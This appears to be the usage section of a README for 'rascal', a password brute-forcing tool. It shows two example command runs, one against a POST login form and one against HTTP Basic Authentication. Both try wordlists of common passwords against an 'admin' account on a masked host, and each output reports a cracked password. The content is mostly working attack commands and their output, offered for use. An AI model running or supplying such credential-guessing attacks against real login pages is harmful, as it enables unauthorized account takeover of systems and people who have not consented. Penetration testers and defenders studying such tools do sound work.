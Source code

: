 ### POST

    C:\tools\> .\rascal.exe --post -u https://***.com/123123/login.php -w C:\tools\xato-10k.txt --username admin --username_field user_id --password_field passwd --success_text OK

        -- SETTINGS VERIFICATION --
        url: https://***.com/123123/login.php
        username: admin
        password list: C:\tools\xato-10k.txt
        username post form field: user_id
        password post form field: passwd
        success message: OK
        failure message: None

    Does this look OK? (Y/n)
    Prepared wordlist in memory with 10000 entries.
    [+] admin:1999

---

### Basic Authentication

    $ python3 rascal.py --basic -u http://***.com/123123/321 -w /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-1000.txt --username admin --failure_text 'Restricted Content'
    
            -- SETTINGS VERIFICATION --
            url: http://***.com/123123/321
            username: admin
            password list: /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-1000.txt
            success message: None
            failure message: Restricted Content
            custom user agent: None
            
    Does this look OK? (Y/n) 
    Prepared wordlist in memory with 1000 entries.
    
        ##########
        Response headers from source.
        I.e., Build your failure string from header details:
        {'Date': 'Thu, 29 Jun 2023 03:49:47 GMT', 'Server': 'Apache/2.4.57 (Debian)', 'WWW-Authenticate': 'Basic realm="Restricted Content"', 'Content-Length': '457', 'Keep-Alive': 'timeout=5, max=100', 'Connection': 'Keep-Alive', 'Content-Type': 'text/html; charset=iso-8859-1'})
        ##########
        
    [+] admin:12345